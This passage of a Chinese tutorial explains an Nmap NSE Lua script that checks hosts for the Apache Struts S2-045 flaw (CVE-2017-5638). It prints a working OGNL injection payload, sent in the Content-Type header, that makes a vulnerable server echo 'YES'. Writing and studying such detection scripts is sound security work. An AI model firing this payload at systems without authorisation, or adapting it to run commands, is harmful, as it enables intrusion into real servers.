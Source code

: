 可以看到函数中有一行被注释了，这一行的意思是当前请求的协议是TCP并且端口号是8899并且是端口是打开状态，才会返回true。

如果当前函数返回false，那么漏洞检测函数就不会被调用，会继续下一个目标或端口的扫描。

当我们直接返回true，那么每个目标端口都会被传递给漏洞检测函数。

听我说了这么多，漏洞检测函数到底是什么？

## 0x03 第二个函数-高潮

```lua
action = function(host, port)
  local useragent = stdnse.get_script_args(SCRIPT_NAME..".useragent") or nil
  local cookie = stdnse.get_script_args(SCRIPT_NAME..".cookie") or nil
  local referer = stdnse.get_script_args(SCRIPT_NAME..".referer") or nil
  local uri = stdnse.get_script_args(SCRIPT_NAME..".uri") or '/'
  local req = generate_http_req(host, port, uri,useragent,cookie,referer)
  if string.match(req.body, 'YES') then
    local vuln_report = vulns.Report:new(SCRIPT_NAME, host, port)
    local vuln = {
      title = 'Struts S2-045',
      state = vulns.STATE.VULN,
      description = [[
The Jakarta Multipart parser in Apache Struts 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 mishandles file upload, which allows remote attackers to execute arbitrary commands via a #cmd= string in a crafted Content-Type HTTP header, as exploited in the wild in March 2017.
      ]],
      IDS = {CVE = 'CVE-2017-5638'},
      references = {
        'http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638',
        'http://www.cnvd.org.cn/flaw/show/CNVD-2017-02474'
      },
      dates = {
        disclosure = {year = '2017', month = '03', day = '07'},
      }
    }
    stdnse.debug1("There is a vulnerability in the current host")
    vuln.state = vulns.STATE.EXPLOIT
    return vuln_report:make_output(vuln)
  end
end
```
第二个函数就是`action`啦～
`stdnse.get_script_args(SCRIPT_NAME..".useragent") or nil`
stdnse用于处理用户的输入，这里调用了get_script_args用来接收用户输入的useragent参数值。
接下来我调用了一个自定义函数：

```lua
function generate_http_req(host, port, uri, useragent,cookie,referer)
  local payload = '%{(#nikenb=\'multipart/form-data\').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println(\'YES\')).(#o.close())}'
  local options = {header={}}
  options["no_cache"] = true
  options["header"]["User-Agent"] = useragent or 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:51.0) Gecko/20100101 Firefox/51.0'
  options["header"]["Referer"] = referer or 'NULL'
  options["cookies"] = cookie or 'NULL'
  options["header"]["Content-Type"] = payload
  stdnse.debug1("Start scanning the vulnerability")
  local req = http.get(host, port, uri, options)
  return req
end
```
